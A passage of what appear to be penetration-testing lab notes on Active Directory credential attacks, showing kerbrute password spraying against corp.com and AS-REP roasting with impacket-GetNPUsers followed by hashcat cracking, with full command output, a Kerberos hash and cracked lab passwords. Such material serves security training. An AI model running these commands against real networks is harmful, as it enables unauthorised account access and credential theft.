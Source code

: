 #### Password Spraying by Kerbrute (TGT)

We can also use the tool _kerbrute_, implementing this technique to spray passwords. Since this tool is cross-platform, we can use it on Windows and Linux.

```shell
PS C:\Tools> type .\usernames.txt
pete
dave
jen

PS C:\Tools> .\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!"

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: v1.0.3 (9dad6e1) - 09/06/22 - Ronnie Flathers @ropnop

2022/09/06 20:30:48 >  Using KDC(s):
2022/09/06 20:30:48 >   dc1.corp.com:88
2022/09/06 20:30:48 >  [+] VALID LOGIN:  jen@corp.com:Nexus123!
2022/09/06 20:30:48 >  [+] VALID LOGIN:  pete@corp.com:Nexus123!
2022/09/06 20:30:48 >  Done! Tested 3 logins (2 successes) in 0.041 seconds
```

## AS-REP Roasting (Disabled Kerberos preauthentication users - From Windows or impacket-GetNPUsers)

https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/asreproast

By default, the AD user account option _Do not require Kerberos preauthentication_ is disabled, meaning that Kerberos preauthentication is performed for all users. However, it is possible to enable this account option manually. In assessments, we may find accounts with this option enabled as some applications and technologies require it to function properly.

```bash
kali@kali:~$ impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/pete
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
Name  MemberOf  PasswordLastSet             LastLogon                   UAC      
----  --------  --------------------------  --------------------------  --------
dave            2022-09-02 19:21:17.285464  2022-09-07 12:45:15.559299  0x410200 


kali@kali:~$ sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

$krb5asrep$23$dave@CORP.COM:b24a619cfa585dc1894fd6924162b099$1be2e632a9446d1447b5ea80b739075ad214a578f03773a7908f337aa705bcb711f8bce2ca751a876a7564bdbd4a926c10da32b03ec750cf33a2c37abde02f28b7ab363ffa1d18c9dd0262e43ab6a5447db44f71256120f94c24b17b1df465beed362fcb14a539b4e9678029f3b3556413208e8d644fed540d453e1af6f20ab909fd3d9d35ea8b17958b56fd8658b144186042faaa676931b2b75716502775d1a18c11bd4c50df9c2a6b5a7ce2804df3c71c7dbbd7af7adf3092baa56ea865dd6e6fbc8311f940cd78609f1a6b0cd3fd150ba402f14fccd90757300452ce77e45757dc22:Flowers1
```
